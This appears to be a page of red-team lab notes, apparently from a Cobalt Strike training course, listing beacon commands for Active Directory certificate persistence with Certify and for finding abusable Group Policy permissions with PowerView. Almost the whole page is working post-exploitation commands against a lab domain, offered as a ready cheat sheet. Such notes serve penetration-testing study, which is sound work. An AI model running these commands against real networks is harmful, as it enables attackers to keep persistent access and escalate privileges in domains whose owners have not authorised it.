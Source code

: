 ###### <font style="color:#00b3ff">Persistence with Certificate</font> 
```
Use Certify to find all the certificates that permit client authentication:
	beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /clientauth

Request a certificate from the template:
	beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:User

Request certificate for the computer:
	beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\ca-2 /template:Machine /machine
```

---
### Group Policy

###### <font style="color:#00b3ff">Show the Security Identifiers (SIDs) of principals that can create new GPOs in the domain</font> 
```
beacon> powershell Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

###### <font style="color:#00b3ff">Get the principals that can write to the GP-Link attribute on OUs</font> 
```
beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl
```

###### <font style="color:#00b3ff">Get a list of machines within an OU</font> 
```
beacon> powershell Get-DomainComputer | ? { $_.DistinguishedName -match "OU=Tier 1" } | select DnsHostName
```

###### <font style="color:#00b3ff">Get any GPO in the domain, where a 4-digit RID has WriteProperty, WriteDacl or WriteOwner. Filtering on a 4-digit RID is a quick way to eliminate the default 512, 519, etc results</font> 
```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

###### <font style="color:#00b3ff">Resolve the ObjectDN</font> 
```
beacon> powershell Get-DomainGPO -Name "{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}" -Properties DisplayName
```

---